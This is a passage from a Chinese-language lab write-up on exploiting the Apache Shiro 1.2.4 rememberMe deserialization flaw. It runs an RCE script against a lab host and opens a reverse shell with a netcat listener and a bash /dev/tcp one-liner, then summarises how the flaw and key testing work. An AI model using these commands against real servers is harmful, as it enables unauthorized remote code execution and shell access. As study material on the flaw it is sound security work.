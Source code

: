```php
python3 shiro-1.2.4_rce.py hhttp://192.168.200.128:8888/
```

![image-20210602003440381](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-240b66a2b53a265435765493c5077977a0337c56.png)

![image-20210602004724872](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f44c132619d52527b867cb984a1091cff0f159b8.png)

输入linux系统获得shell

6)反弹一个shell

```php
攻击方：nc -lvp 4444
上面脚本获得的shell中执行：bash -i &amp;gt;&amp; /dev/tcp/192.168.200.129/4444 0&amp;gt;&amp;1
```

![image-20210602005035246](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2bfd68c369c095cbd8e52ff79894901bfb64d831.png)

反弹shell成功

四、总结
----

1、首先对shiro反序列化漏洞原理进行分析，Apache shiro框架提供了记住Rememberme,用户登录成功后生成经过加密并编码的cookie。cookie的key为rememberme，cookie的值是经过对相关的信息进行序列化，然后实用aes加密，最后在使用b ase64编码处理形成的。

2、其次部署安装jdk、tomcat、shiro环境进行部署。

3、可以访问互联网情况下，利用DNSLOG进行，测试shiro key；不可以访问互联网情况下，循环key和gadget组合机器延迟命令，success生效了，就是存在的。

结束~